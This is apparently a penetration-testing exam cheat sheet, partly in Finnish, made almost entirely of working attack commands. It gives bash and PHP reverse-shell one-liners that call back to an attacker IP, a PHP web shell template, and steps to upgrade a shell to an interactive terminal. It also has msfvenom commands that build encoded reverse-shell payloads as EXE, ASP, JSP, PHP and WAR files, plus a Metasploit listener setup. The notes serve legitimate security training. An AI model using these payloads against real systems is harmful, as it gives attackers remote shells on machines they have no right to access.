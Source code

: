 ```<?php echo shell_exec("[INSERT ONE LINER");?>```
  - !sh

## Reverse Bash shell
  * /bin/bash -i >& /dev/tcp/<IP>/4444 0>&1

## PHP Netcat shell
  * <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/443 0>&1'");?>

* https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```
  # In reverse shell
  $ python -c 'import pty; pty.spawn("/bin/bash")'
  Ctrl-Z

  # In Kali
  $ stty raw -echo
  $ fg

  # In reverse shell
  $ reset
  $ export SHELL=bash
  $ export TERM=xterm-256color
  $ stty rows <num> columns <cols>
```

## Jos ifconfig ei toimi, kokeile /sbin/ifconfig
 * SunOS: ifconfig -a

## Yhteyksien tarkastelu Kalissa:
  * watch -d -n1 lsof -i

* https://github.com/xapax/security/blob/master/reverse-shell.md


# Metasploit

* http://netsec.ws/?p=331

## Shellkoodin generointi:
  * Meterpreteriä voi kokeessa käyttää vain yhteen koneeseen!!!
  * msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f python -b "\x00..."
  * msfvenom --platform linux -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=443 -f perl
  * linux/x86/meterpreter/reverse_tcp

## Filun generointi:
  * EXE: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
  * ASP: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f asp > shell.asp
  * JSP: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=443 -f raw > shell.jsp
  * PHP: msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -f raw > shell.php
  * WAR: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=443 -f war > shell.war

## Multi/handler:
  * use multi/handler
  * set PAYLOAD windows/meterpreter/reverse_tcp
  * set LHOST <IP>
  * set LPORT 443
```
